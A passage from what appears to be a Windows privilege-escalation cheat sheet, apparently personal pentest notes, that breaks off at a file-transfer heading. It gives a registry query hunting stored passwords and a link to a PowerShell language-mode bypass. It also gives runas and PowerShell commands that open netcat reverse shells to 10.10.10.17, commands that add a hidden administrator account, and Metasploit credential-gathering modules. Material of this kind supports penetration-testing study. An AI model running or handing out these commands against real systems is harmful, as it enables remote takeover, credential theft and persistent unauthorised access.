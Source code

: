 ```
reg query HKCU /f password /t REG_SZ /s
```

For more Powershell stuff, i recommend __Babutzc__ his gist. Loads of commands and extra stuff :)
> https://gist.github.com/babutzc/f68f5414fc8595ca8f80abbe36d7b946

The 'ConstrainedLanguage' is more a thing these days. When trying to escalate privileges it can be usefull to look for a way to break out into 'FullLanguage' mode. 

> https://ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass

### Execute commands as a different user
Execute commands as different user when stored credentials are availeble (cmd.exe)
```
runas /user:.\Pieter /savecred 'nc.exe -e cmd.exe 10.10.10.17 6666'
```

Execute commands as different user on powershell.
```
$username = "pieter"
$password = "Welkom01"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
$Session    = New-PSSession -Credential $Credential
Invoke-Command -Session $Session  -ScriptBlock { nc.exe -e cmd.exe 10.10.10.17 443 }
```

### Adding users

Quickly add a user to the system. If admin privs are also acquired, add the user to the admin group. 
```
net user appel Welkom01 /add
net localgroup administrators appel /add
```

#### MSF Post modules Windows

If you ever use a MSF, here are some usefull post modules. 
```
use exploit/windows/local/service_permissions
post/windows/gather/credentials/gpp
run post/windows/gather/credential_collector 
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
run post/windows/gather/enum_snmp
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
```

#### Transfering files

__Kali__
